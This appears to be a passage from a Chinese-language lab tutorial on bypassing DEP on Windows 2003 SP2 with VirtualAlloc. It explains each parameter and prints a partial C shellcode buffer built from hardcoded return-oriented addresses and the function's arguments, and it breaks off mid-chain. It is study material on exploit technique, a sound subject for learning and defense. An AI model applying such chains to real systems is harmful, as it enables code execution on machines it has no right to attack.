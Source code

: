 申请成功返回地址，失败返回NULL。

### 环境

windows 2003 sp2

DEP Optout

VC++6.0 禁用优化，release版本。

关闭 GS 和 SafeSEH

### 思路

VirtualAlloc函数中对各参数的调用与VirtualProtect 函数如出一辙，可以选择与上个实验中一致的参数构造方法。

但是VirtualAlloc不存在动态确认地址的问题，可以直接写到shellcode里。

![virtualAlloc](dep/virtualAlloc.png)

1. lpAddress=0x00030000	选择一个未被占用的地址即可。
2. dwSize=0xFF，申请空间的大小可以根据 shellcode 的长度确定。
3. flAllocationType=0x00001000，该值使用 0x00001000 即可， 如有特殊需求查看MSDN。
4. flProtect=0x00000040，内存属性要设置为可读可写可执行。MSDN介绍改值为0x40。

### 代码

	#include<stdlib.h>
	#include<string.h>
	#include<stdio.h>
	#include<windows.h>
	char shellcode[]=
	"\x90\x90\x90\x90 ........ "
	"\x99\xc8\xa7\x7c"  //① 0x7ca7c899 push esp pop ebp retn 4 - > 覆盖的返回地址
	"\xbc\x45\x82\x7c"	//② 0x7c8245bc  VirtualAlloc
	"\x90\x90\x90\x90"
	//------------------------------   VirtualAlloc 函数参数
	"\xFF\xFF\xFF\xFF"//-1 当前进程
	"\x00\x00\x03\x00"//申请空间起始地址 0x00030000 
	"\xFF\x00\x00\x00"//申请空间大小 0xFF
	"\x00\x10\x00\x00"//申请类型 0x1000 
	"\x40\x00\x00\x00"//申请空间访问类型 0x40
	//-------------------------------
	"\x90\x90\x90\x90"
	"\xf0\xf3\x87\x7c" //③ 0x7c87f3f0	pop eax retn
	